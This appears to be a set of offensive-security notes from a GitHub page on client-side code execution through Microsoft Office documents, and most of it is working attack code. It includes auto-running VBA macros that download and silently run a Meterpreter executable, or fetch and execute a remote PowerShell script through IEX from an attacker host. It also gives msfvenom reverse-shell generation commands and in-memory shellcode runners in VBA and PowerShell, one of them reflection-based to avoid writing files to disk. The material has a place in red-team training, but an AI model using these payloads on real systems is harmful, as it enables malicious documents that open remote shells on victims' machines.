




# Client side code exec using microsoft office

## Create vba macro to execute cmd
```
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim str As String
    str = "cmd.exe"
    CreateObject("Wscript.Shell").Run str, 0
End Sub
```

## Create vba macro to download meterpreter executable and execute it
We built a Word document that pulls the Meterpreter executable from our web server when the document is opened (and macros are enabled). 

We added a small time delay to allow the file to completely download. We then executed the file hidden from the user. This results in a reverse Meterpreter shell.
```
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe', 'msfstaged.exe')"
    Shell str, vbHide
    Dim exePath As String
    exePath = ActiveDocument.Path + "\msfstaged.exe"
    Wait (2)
    Shell exePath, vbHide

End Sub

Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
        DoEvents
    Loop Until Now >= DateAdd("s", n, t)
End Sub
```

## VBA script to execute meterpreter staged payload in memory
Generate msfvenom shellcode
```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 EXITFUNC=thread -f vbapplication
```

VBA code
```
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function MyMacro()
    Dim buf As Variant
    Dim addr As LongPtr
    Dim counter As Long
    Dim data As Long
    Dim res As Long
    
    buf = Array(232, 130, 0, 0, 0, 96, 137, 229, 49, 192, 100, 139, 80, 48, 139, 82, 12, 139, 82, 20, 139, 114, 40, 15, 183, 74, 38, 49, 255, 172, 60, 97, 124, 2, 44, 32, 193, 207, 13, 1, 199, 226, 242, 82, 87, 139, 82, 16, 139, 74, 60, 139, 76, 17, 120, 227, 72, 1, 209, 81, 139, 89, 32, 1, 211, 139, 73, 24, 227, 58, 73, 139, 52, 139, 1, 214, 49, 255, 172, 193, _
...
49, 57, 50, 46, 49, 54, 56, 46, 49, 55, 54, 46, 49, 52, 50, 0, 187, 224, 29, 42, 10, 104, 166, 149, 189, 157, 255, 213, 60, 6, 124, 10, 128, 251, 224, 117, 5, 187, 71, 19, 114, 111, 106, 0, 83, 255, 213)

    addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
    
    For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
        res = RtlMoveMemory(addr + counter, data, 1)
    Next counter
    
    res = CreateThread(0, 0, addr, 0, 0, 0)
End Function 

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```


## Powershell Shellcode Runner
Generate msvenom shellcode
```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 EXITFUNC=thread -f ps1
```


Powershell cradle
```
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, 
        uint flAllocationType, uint flProtect);
        
    [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, 
        uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, 
            uint dwCreationFlags, IntPtr lpThreadId);
            
    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, 
        UInt32 dwMilliseconds);
}
"@

Add-Type $Kernel32

[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60...
$size = $buf.Length
[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)
$thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);
[Kernel32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

VBA code
```
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/run.ps1') | IEX"
    Shell str, vbHide
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```

Result


## Reflection Shellcode Runner in Powershell
Powershell code
```
function LookupFunc {

	Param ($moduleName, $functionName)

	$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
      Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
	return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}

function getDelegateType {

	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
		[Parameter(Position = 1)] [Type] $delType = [Void]
	)

	$type = [AppDomain]::CurrentDomain.
    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), 
    [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
      DefineDynamicModule('InMemoryModule', $false).
      DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', 
      [System.MulticastDelegate])

  $type.
    DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).
      SetImplementationFlags('Runtime, Managed')

  $type.
    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
      SetImplementationFlags('Runtime, Managed')

	return $type.CreateType()
}

$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)

[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0...

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)

$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)

[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)
```

VBA code
```
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/run.ps1') | IEX"
    Shell str, vbHide
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```

Result
```
Process Monitor reveals that no .cs file was written to the file system and subsequently compiled as given
```

## References
https://www.depthsecurity.com/blog/obfuscating-malicious-macro-enabled-word-docs/
<br>
https://github.com/clr2of8/VBAstomp
<br>
https://woshub.com/using-powershell-behind-a-proxy/
<br>
https://stackoverflow.com/questions/14263359/access-web-using-powershell-and-proxy
<br>
https://cloudrun.co.uk/powershell/configuring-powershell-to-work-behind-a-proxy-server/
<br>
https://medium.com/river-yang/powershell-working-behind-a-proxy-with-authentication-eb68a337f222
